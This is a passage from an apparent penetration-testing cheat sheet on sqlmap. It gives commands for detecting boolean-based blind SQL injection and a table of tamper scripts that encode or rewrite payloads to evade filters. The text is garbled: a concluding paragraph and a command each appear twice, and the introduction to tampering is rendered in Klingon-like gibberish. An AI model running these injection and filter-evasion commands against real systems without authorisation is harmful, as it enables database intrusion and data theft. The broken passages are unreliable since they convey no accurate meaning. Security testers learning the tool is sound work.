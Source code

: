 ```
sqlmap -u "http://example.com/page.php?id=1" --technique B
```

To detect boolean-based SQL injection using SQLMap, you can run the following command:

```
sqlmap -u "http://example.com/page.php?id=1" --technique B
```

---

#### Conclusion

Boolean-based SQL injection is a common vulnerability that can have serious consequences if not properly addressed. By using tools like SQLMap, you can easily detect and exploit these vulnerabilities, helping to secure web applications against potential attacks.

#### Conclusion

Boolean-based SQL injection is a common vulnerability that can have serious consequences if not properly addressed. By using tools like SQLMap, you can easily detect and exploit these vulnerabilities, helping to secure web applications against potential attacks.

---
```bash
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch
```
### Tamper

**ghobe' python vItlhutlh** tamper vItlhutlh. [Second Order Injection page here](second-order-injection-sqlmap.md) vItlhutlh tamper jatlh.
```bash
--tamper=name_of_the_tamper
#In kali you can see all the tampers in /usr/share/sqlmap/tamper
```
| Tamper                       | Description                                                                                                                        |
| ---------------------------- | ---------------------------------------------------------------------------------------------------------------------------------- |
| apostrophemask.py            | Replaces apostrophe character with its UTF-8 full width counterpart                                                                |
| apostrophenullencode.py      | Replaces apostrophe character with its illegal double unicode counterpart                                                          |
| appendnullbyte.py            | Appends encoded NULL byte character at the end of payload                                                                          |
| base64encode.py              | Base64 all characters in a given payload                                                                                           |
| between.py                   | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #'                                                                    |
| bluecoat.py                  | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator |
| chardoubleencode.py          | Double url-encodes all characters in a given payload (not processing already encoded)                                              |
| commalesslimit.py            | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'                                                                       |
| commalessmid.py              | Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'                                                                  |
| concat2concatws.py           | Replaces instances like 'CONCAT(A, B)' with 'CONCAT\_WS(MID(CHAR(0), 0, 0), A, B)'                                                 |
| charencode.py                | Url-encodes all characters in a given payload (not processing already encoded)                                                     |
| charunicodeencode.py         | Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded). "%u0022"                           |
| charunicodeescape.py         | Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded). "\u0022"                           |
| equaltolike.py               | Replaces all occurances of operator equal ('=') with operator 'LIKE'                                                               |
| escapequotes.py              | Slash escape quotes (' and ")                                                                                                      |
| greatest.py                  | Replaces greater than operator ('>') with 'GREATEST' counterpart                                                                   |